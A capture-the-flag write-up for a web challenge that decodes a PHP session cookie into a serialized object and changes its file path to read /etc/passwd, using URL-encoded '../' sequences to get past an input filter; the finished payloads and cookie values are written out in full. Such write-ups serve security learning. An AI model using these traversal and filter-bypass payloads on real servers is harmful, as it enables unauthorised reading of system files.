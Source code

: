 Title: Serial Killer
Date: 2022-04-23
Category: CTF writeups
Tags: web

![challenge description]({static}/images/serialkiller/challenge.png)

When opening the site at [http://serial.tamuctf.com/](http://serial.tamuctf.com/) we only see the static text that talks about a new method of getting files.

![testpage]({static}/images/serialkiller/testpage.png)

Additionally there exists a PHP session ID cookie.

![session ID cookie]({static}/images/serialkiller/sessionid.png)

With the `%3D` in the end, the cookie seems to be URL encoded.

``` JavaScript
decodeURIComponent('Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D')

// "Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30="
```

This URL decoded string then seems to be base64 encoded.

``` JavaScript
atob(decodeURIComponent('Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D'))

// "O:7:\"GetPage\":1:{s:4:\"file\";s:10:\"index.html\";}"
```

And finally this looks like a serialized PHP object.
From the challenge description we know, that the flag is in `/etc/passwd`.
So lets change the filename and set a new session cookie:

``` JavaScript
let serializedPhpObject = 'O:7:"GetPage":1:{s:4:"file";s:19:"../../../etc/passwd";}';
let base64encoded = btoa(serializedPhpObject);
let uriEncoded = encodeURIComponent(base64encoded);

// Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTk6Ii4uLy4uLy4uL2V0Yy9wYXNzd2QiO30%3D
```

When setting this cookie and reload the page we get the error **You should not be doing that**

![you should not be doing that]({static}/images/serialkiller/error.png)

Probably the input is validated in someway and we have to find another way to write the path to `/etc/passwd`.
After searching the web I found an entry in the [0xffsec Handbook about LFI](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/#encoding).

So it makes sense to URL encode the path in the serialized PHP object before base64 encoding the whole object.

``` JavaScript
let serializedPhpObject = 'O:7:"GetPage":1:{s:4:"file";s:37:"%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd";}';
let base64encoded = btoa(serializedPhpObject);
let uriEncoded = encodeURIComponent(base64encoded);

// Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6Mzc6IiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZmV0Yy9wYXNzd2QiO30%3D
```

And using this new cookie we can read `/etc/passwd`:

![flag in passwd]({static}/images/serialkiller/flag.png)

So the flag is **gigem{1nt3r3sting_LFI_vuln}**
